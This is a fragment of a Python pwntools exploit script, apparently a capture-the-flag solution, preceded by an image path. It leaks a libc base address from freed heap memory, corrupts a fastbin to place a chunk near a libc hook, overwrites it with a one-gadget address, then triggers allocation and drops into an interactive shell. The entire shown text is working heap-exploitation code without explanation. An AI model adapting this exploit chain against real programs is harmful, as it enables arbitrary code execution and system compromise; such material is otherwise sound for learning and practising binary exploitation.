 ```py
fill(3, payload)

alloc(0x80) # index5
free(4)

libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00"))-0x3c4b78
log.info("libc_base: "+hex(libc_base))
 
alloc(0x60) # index4

free(4)
 
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
 
alloc(0x60) # index4
alloc(0x60) # index6
 
payload = p8(0)*3+p64(0)*2+p64(libc_base+0x4526a)
# payload = b'a'*0x13+p64(libc_base+0x4526a)
fill(6, payload)
 
alloc(255)
 
p.interactive()
```